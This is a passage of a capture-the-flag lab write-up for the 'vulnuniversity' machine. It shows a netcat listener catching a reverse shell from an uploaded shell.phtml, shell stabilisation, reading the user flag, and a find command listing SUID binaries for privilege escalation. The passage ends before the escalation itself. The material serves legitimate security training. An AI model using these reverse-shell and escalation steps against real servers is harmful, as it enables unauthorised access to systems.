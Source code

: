 `/uploads` looks like it. Let's navigate to it and execute the `shell.phtml` by simply clicking on it. The moment we run the shell, netcat will receive a connection and we will be inside the server.

```
$ nc -lvnp 4242

Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.205.180 56538 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:30:44 up  2:39,  0 users,  load average: 0.00, 0.04, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$
```

Stabilize our shell and get the user flag

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/var/www/html$ ^Z
$ stty raw -echo
$ fg
www-data@vulnuniversity:/var/www/html$ export TERM=xterm
www-data@vulnuniversity:/var/www/html$ cd /home/bill && cat user.txt

8bd7992fbe8a6ad22a633610[redacted]
```

## Privilege Escalation

We have to escalate our privileges and become the superuser (root).

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

We can find all SUIDs with

```
www-data@vulnuniversity:/home/bill$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
```